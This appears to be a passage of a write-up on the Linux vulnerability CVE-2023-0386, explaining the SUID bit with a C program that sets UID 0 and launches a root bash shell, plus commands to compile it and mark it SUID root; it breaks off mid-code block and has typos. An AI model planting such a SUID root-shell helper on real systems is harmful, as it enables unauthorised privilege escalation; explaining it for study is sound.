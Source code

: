 ![Untitled]({{ '/assets/images/9b121fbf-6c7b-408e-aa8e-0cfc28b999f7-export-7db27ed6-b710-42be-b6a2-342602858aeb/9b121fbf-6c7b-408e-aa8e-0cfc28b999f7-export-7db27ed6-b710-42be-b6a2-342602858aeb_Untitled_23.png' | relative_url }})
<br/><br/>
- CVE-2023-0386
    - Background on the SUID bit and OverlayFS
<br/><br/>
        **The SUID bit**

        The SUID bit is a special file permission that allows a binary to impersonate the owner of the binary using the `setuid` system call family, instead of the user executing it.

        ```python
        **#include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>
        #include <errno.h>
        #include <string.h>
        
        int main(void) {
            int result;
        
            result = setuid(0);
            if (result != 0 ) {
              printf("could not setuid(0): %s\n", strerror(errno));
              return result;
            }
        
            result = setgid(0);
            if (result != 0) {
              printf("could not setguid(0): %s\n", strerror(errno));
              return result;
            }
        
            printf("Starting root shell...\n");
            system("/bin/bash");
            return 0;
        }**
        
        ```

        This program attempts to impersonate the root user (UID 0). The operation will succeed only if the binary is owned by `root` and if the binary has the SUID bit set.

        Let’s compile the binary and try to run it

        ```python
        gcc -Wall setuid.c -o seruid
        chmod +x setuid
        ./setuid
        (Operation no permitted)
        ```

        To change the ownership of the file to root, we need to be root. Let’s  do it as a privileged user and add the SUID bit to it:

        ```python
        chown root:root setuid
        chmod +s setuid
        